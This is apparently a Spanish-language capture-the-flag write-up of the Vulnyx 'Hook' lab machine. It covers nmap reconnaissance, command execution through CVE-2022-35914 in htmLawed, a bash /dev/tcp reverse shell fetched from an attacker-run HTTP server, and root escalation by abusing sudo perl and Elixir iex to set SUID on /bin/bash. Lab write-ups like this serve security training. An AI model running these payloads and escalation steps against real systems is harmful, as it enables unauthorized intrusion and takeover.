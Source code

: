 ```yaml
---
title: Vulnyx - Hook
author: estx
date: 2024-03-11 17:51:00 +0800
categories: [Writeup, Vulnyx, Easy]
tags: [Linux, 'htmLawed', 'CVE-2022-35914' , 'abuse of privileges']
math: true
mermaid: true
image:
  path: /assets/images/Vulnyx/Easy/Hook/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hook Machine Logo
---
```


Máquina Linux de nivel **Easy** de Vulnyx.

Técnicas usadas: **CVE-2022-35914, abuse of privileges**


### Fase de Reconocimiento 🧣

Como primer punto, identificamos la dirección IP de la **`Máquina Vulnyx`**

```bash
root@kali> arp-scan -I eth0 --local --ignoredups

<SNIP>
192.168.100.64	08:00:27:c6:4f:1d	PCS Systemtechnik GmbH
```
> Con esto identificamos todos los dispositivos en nuestra red local.

a. Enumeramos los puertos que están abiertos.

* **`nmap -p- -sS -Pn -n 192.168.100.64 -oG puertos`**

  ![](/assets/images/Vulnyx/Easy/Hook/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando

* **`nmap -p22,80,4369 -sCV 192.168.100.64 -oN versions`**

  ![](/assets/images/Vulnyx/Easy/Hook/02-versions.png)

> Lo que más llama la atención es el directorio **`htmLawed`**

c. Si investigamos más sobre **htmLawed** llegamos a este [post](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/) en el que nos mencionar el **CVE-2022-35914**. El directorio al que acceden es `/vendor/htmlawed/htmLawed/htmLawedTest.php`, sin embargo, si nos fijamos, el directorio listado en el archivo **robots.txt** es **htmLawed** por lo que podemos intuir que únicamente debemos visitar el fichero  **htmLawedTest.php**.


  ![](/assets/images/Vulnyx/Easy/Hook/03-url.png)

* Si seguimos las indicaciones del [post](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/), veremos que podemos modificar un hook con el fin de ejecutar comandos

  ![](/assets/images/Vulnyx/Easy/Hook/04-config.png)

  ![](/assets/images/Vulnyx/Easy/Hook/05-output.png)


d. Nos entablamos una reverse shell

```bash
❯ cat index.html

#!/bin/bash

bash -i >& /dev/tcp/192.168.100.55/4444 0>&1
---------------------------------------------

❯ python -m http.server 80

---------------------------------------------

❯ nc -lvnp 4444
```

> Con esto lo que hacemos es servir el archivo `index.html`, para que al ser requerido por la máquina víctima se ejecute el código **.sh**

* Hacemos que la máquina víctima solicite el archivo

![](/assets/images/Vulnyx/Easy/Hook/06-command.png)

![](/assets/images/Vulnyx/Easy/Hook/07-reverse.png)


### Escalada de Privilegios 💹

1. Hacemos el tratamiento de la TTY para trabajar de manera más cómoda con la reverse shell

```bash
bash-5.2$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
bash-5.2$ ^Z
[1]  + 66303 suspended  nc -lvnp 4444
❯ stty raw -echo;fg
[1]  + 66303 continued  nc -lvnp 4444
                                     reset xterm

bash-5.2$ export TERM=xterm-256color
bash-5.2$ source  /etc/skel/.bashrc 
www-data@hook:/var/www/html/htmLawed$
```

2. Listamos los privilegios a nivel de sudoers de este usuario

```bash
www-data@hook:/var/www/html/htmLawed$ sudo -l
User www-data may run the following commands on hook:
    (noname) NOPASSWD: /usr/bin/perl
```

* Como podemos ejecutar **perl** como el usuario noname ejecutaremos un comando para spawnear una bash

```bash
www-data@hook:/var/www/html/htmLawed$ sudo -u noname /usr/bin/perl -e 'exec "/bin/bash";'
bash-5.2$ whoami
noname
```

3. Ahora, vemos de nuevo los permisos a nivel de sudoers de este usuario

```bash
bash-5.2$ sudo -l

User noname may run the following commands on hook:
    (root) NOPASSWD: /usr/bin/iex
```

> **iex**: Es una consola interactiva para el lenguaje Elixir
{: .prompt-info }


* Al investigar una forma de ejecutar comando en Elixir obtenemos esto:

```elixir
System.cmd("whoami", [])  -> Comando sin argumentos
System.cmd("ls", ["la"]) -> Comando con argumentos
```


4. Lo que haremos es otorgar permiso **SUID** a la `/bin/bash` y, como este comando lo ejecutaremos como root, cualquier usuario podrá spawnear una bash como el usuario root sin necesidad de otorgar una contraseña

```elixir
iex(1)> System.cmd("chmod", ["+s", "/bin/bash"])
{"", 0} -> El `0` nos indica que el comando se ejecutó exitosamente
```

5. Por último nos salimos de esta consola interactiva con `Ctrl` + `c` y luego poniendo `a` y ejecutamos **bash -p**

```bash
iex(2)> 
BREAK: (a)bort (A)bort with dump (c)ontinue (p)roc info (i)nfo
       (l)oaded (v)ersion (k)ill (D)b-tables (d)istribution
a
----------------------------------------------------------------
bash-5.2$ bash -p
bash-5.2# whoami
root
```
